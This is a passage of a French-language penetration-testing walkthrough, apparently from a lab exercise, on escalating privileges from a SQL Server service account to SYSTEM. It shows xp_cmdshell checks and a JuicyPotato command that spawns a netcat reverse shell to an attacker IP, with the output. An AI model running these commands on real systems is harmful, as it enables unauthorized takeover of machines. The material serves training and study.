 #### Vérification des privilèges du compte

Ensuite, vérifions quels privilèges le service-compte a été accordé.

Vérification des privilèges du compte

```
SQL> xp_cmdshell whoami /priv

sortir

-------------------------------------------------- ------------------------------

INFORMATIONS SUR LES PRIVILÈGES

----------------------
Nom du privilège Description État

================================================= ==================== ========

SeAssignPrimaryTokenPrivilege Remplacer un jeton de niveau processus Désactivé
SeIncreaseQuotaPrivilege Ajuster les quotas de mémoire pour un processus Désactivé
SeChangeNotifyPrivilege Bypass traverse la vérification activée
SeManageVolumePrivilege Effectuer des tâches de maintenance de volume Activé
SeImpersonatePrivilege Emprunter l'identité d'un client après l'authentification Activé
SeCreateGlobalPrivilege Créer des objets globaux Activé
SeIncreaseWorkingSetPrivilege Augmenter un ensemble de travail de processus Désactivé

```

La commande `whoami /priv` confirme que [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) est répertorié. Ce privilège peut être utilisé pour usurper l'identité d'un compte privilégié tel que `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) peut être utilisé pour exploiter les privilèges `SeImpersonate` ou `SeAssignPrimaryToken` via l'abus de réflexion DCOM/NTLM.

#### Augmentation des privilèges à l'aide de JuicyPotato

Pour augmenter les privilèges à l'aide de ces droits, commençons par télécharger le binaire `JuicyPotato.exe` et téléchargeons-le ainsi que `nc.exe` sur le serveur cible. Ensuite, placez un écouteur Netcat sur le port 8443 et exécutez la commande ci-dessous où `-l` est le port d'écoute du serveur COM, `-p` est le programme à lancer (cmd.exe), `-a` est l'argument transmis à cmd.exe, et `-t` est l'appel `createprocess` . Ci-dessous, nous disons à l'outil d'essayer à la fois  [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) et [CreateProcessAsUser](https : //docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) fonctions, qui nécessitent respectivement les privilèges `SeImpersonate` ou `SeAssignPrimaryToken` .

Augmentation des privilèges à l'aide de JuicyPotato

```
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

sortir

-------------------------------------------------- ------------------------------

Test {4991d34b-80a1-4291-83b6-3328366b9097} 53375

[+] résultat d'authentification 0
{4991d34b-80a1-4291-83b6-3328366b9097} ;AUTORITÉ NT\SYSTÈME
[+] CreateProcessWithTokenW OK
[+] appelant 0x000000000088ce08

```
